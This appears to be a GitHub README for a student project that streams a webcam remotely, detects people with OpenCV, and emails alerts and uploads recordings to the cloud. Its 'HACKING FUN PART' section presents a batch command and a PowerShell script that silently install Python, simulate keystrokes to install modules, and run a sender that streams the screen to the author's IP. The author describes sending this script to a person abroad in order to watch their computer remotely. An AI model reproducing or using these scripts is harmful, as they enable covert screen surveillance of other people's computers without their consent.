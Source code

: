 #SecureLink
=-=-=-=-=-=-=-=-=-= ?WHAT IS THIS PROJECT? =-=-=-=-=-=-=-=-=-=

This project was made during the Web & Mobile Developmente course, but focuses more on the cybersecurity side.

Basically what I managed to develop, was a remote video transmission connection to another computer. I also integrated human body motion detection, which starts recording when it recognizes a human body or face, takes a screenshot and sends a notification to the email, along with the url link of the private cloud where all the recordings are stored.

I was really hyped about this project, although i don't have raspberry pi... so I had to use my 10 years old TOSHIBA laptop, that eventually died during the process...luckily for me, I had practically finished the project.

For the interface of this project I built a website, which has a database of users, registration, authentication, administration that allows to create permissions, edit other users and delete them (simple CRUD).

For this project I used the following technologies:

  - Python 
  - Php
  - HTML & CSS
  - Bootstrap
  - PowerShell
  - Command Prompt
  - SQL
  - XAMPP
=-=-=-=-=-=-=-=-=-= PART I - REMOTE CONNECTION BETWEEN COMPUTERS =-=-=-=-=-=-=-=-=-=

Well, the logic behind this idea, consists of the possibility, first of all, to be able to connect to the other computer and transmit the image in real time. For this I used the Python module called "vidstream".

Official documentation: https://pypi.org/project/vidstream/

Very simple to use actually. But to make this work properly so that it is not limited only to the local network connection we also need to make some settings in the router. Each router is different, but on mine it was necessary to access the INTERNET>PORT MAPPING settings.

Port Mapping: Allows remote devices to connect to a specific device on a private LAN.

Next we just need to mention that all IP's that will access from outside will be directly redirected to my computer's IP.

Success! At this point we can put our remote computer (the one that will transmit video) anywhere in the world, connected to any network, it will always transmit the image in real time, as soon as it is connected.

To be able to reverse the process, i.e., leave the computer at home and access it from another network to see what is happening at home from the webcam, we will have to purchase an internet sharing "hotspot", or a router/switch, not linked to any telecommunication operator company, to redirect the IP's received, for example, to a specific network outside LAN, as our IP could be used once we are connected to the mobile data internet.

=-=-=-=-=-=-=-=-=-= PART II - HUMAN BODY/FACE DETECTION and more =-=-=-=-=-=-=-=-=-=

With the connection part done, we move on to the next topic, which is motion detection and sending notification to the email.

In this case I used another Python module, called "openCV".

Link to the official documentation: https://pypi.org/project/opencv-python/

The thing is that there are lots of possibilities to work with this framework. I chose to use the possibility to capture the face and the human body. As soon as the camera identifies a human, it starts recording in MP4 format and saves the file with the name in the following format: "DAY/MONTH/YYYY-HOURS/MINUTES/ SECONDS", using Python's "datetime" package.

So, a human appears, the camera starts recording, if there is no more detection of a body or face, after 5 seconds the recording ends. Since this process is done with "while True:", it is an infinite loop, i.e. the process can be repeated over and over again without having to restart the program.

I also implemented a notification as soon as the camera detects a human movement, when the recording starts, a screenshot is taken, which goes as an attachment along with the message in the email. A link is also passed in the body of the email, which will have all the captured videos on the cloud (I used OneDrive). So as soon as the video recording stops, the video is immediately sent to the cloud. For this I used an automation with Command Prompt.

=-=-=-=-=-=-=-=-=-= PART III - THE CONNECTION BRIDGE =-=-=-=-=-=-=-=-=-=

The connection is made with the help of " WEB CRAWLER/ SPIDER ". So, I made a page on my site that contains a

, when the "TURN ON" button is pressed to start the real-time transmission, the variable inside the camera's database changes to "2 ", when the "TURN OFF" button is pressed, it changes to "1".
The remote computer will always be listening to this page in an infinite loop. When the variable is "2", it starts sharing in real time, when it is "1", just give the command: "taskkill /im python.exe <nul /F" from the command line on the computer side that wants to see what is happening on the remote computer camera.

=-=-=-=-=-=-=-=-=-= PART III - HACKING FUN PART =-=-=-=-=-=-=-=-=-=

FOLDER: AUTO INSTALL - PYTHON - REMOTE PC SCRIPTS

I also created a script in Command Prompt and PowerShell, in which with only 2 clicks on a .bat file, Python is installed on the computer, without the interface:

	python-3.10.7-amd64.exe /quiet InstallAllUsers=1 PrependPath=1 Include_test=0 & start /B start cmd.exe @cmd /c powershell E:\2.ps1
Then it autonomously imports the necessary modules with .ps1 script (PowerShell executable):

	# Activating the Windows Key
	Add-Type -AssemblyName System.Windows.Forms
	[System.Windows.Forms.SendKeys]::SendWait('^{ESC}')

	Add-Type -AssemblyName System.Windows.Forms    
	timeout 2
	'cmd'.ToCharArray() | ForEach-Object {[System.Windows.Forms.SendKeys]::SendWait($_)}

	$wshell = New-Object -ComObject wscript.shell

	$wshell.SendKeys("{ENTER}")

	timeout 2
	$wshell.SendKeys("pip install opencv-python & pip install pyautogui & pip install bs4 & pip install vidstream & pip install requests pip install Pillow --upgrade & python E:\sender.py")

	$wshell.SendKeys("{ENTER}")
and then, the "sender.py" will share the screen in real-time to any desired IP in the world.

In other words, I can be in Portugal, and when I send this script to a person in another country, like Switzerland for example, and when executed, a request is sent to my router that I have at home and it forwards it to my computer ip, this way I can see everything remotely what is happening on the other remote computer.

=-=-=-=-=-=-=-=-=-= \o/ END \o/ =-=-=-=-=-=-=-=-=-=
